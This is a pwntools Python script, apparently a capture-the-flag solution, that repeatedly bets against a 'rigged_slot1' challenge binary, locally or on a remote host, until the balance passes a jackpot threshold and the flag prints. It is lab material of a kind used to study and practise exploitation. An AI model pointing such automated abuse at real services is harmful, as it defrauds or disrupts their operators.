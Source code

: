 ```python
import sys
from pwn import *

# Allows switching between local/GDB/remote execution
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Binary filename
exe = './rigged_slot1'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

# Jackpot threshold
winning_balance = 133742
got_flag = False

while not got_flag:
    # Start the program
    io = start(level='warn')
    balance = 100
    amount = b'25'

    # Skip the initial output
    io.recvlines(3)
    io.sendline(amount)

    count = 1

    while balance > 0 and not got_flag:
        try:
            # Adjust bet amount
            if balance > 10000:
                amount = b'100'
            io.sendlineafter(b':', amount)
            io.recvuntil(b'Current Balance: ')
            balance = int(io.recvline().decode()[1:].strip())
            info(f'balance: {balance}')
            count += 1
            # Check if we've hit the jackpot (remote)
            if balance >= winning_balance:
                warn("Jackpot threshold reached. Attempting to retrieve flag.")
                flag_output = io.recvline().decode()
                info(flag_output)
                got_flag = True
        except EOFError:
            # Capture flag output in case of EOF (local)
            remaining_output = io.recvall(timeout=5).decode()
            if 'Congratulations' in remaining_output:
                warn("Flag captured via EOF handling:")
                info(remaining_output)
                got_flag = True
            break
        except Exception as e:
            warn(f'Error after {count} bets: {str(e)}')
            break

    warn(f'Total bets placed: {count}')
    io.close()
```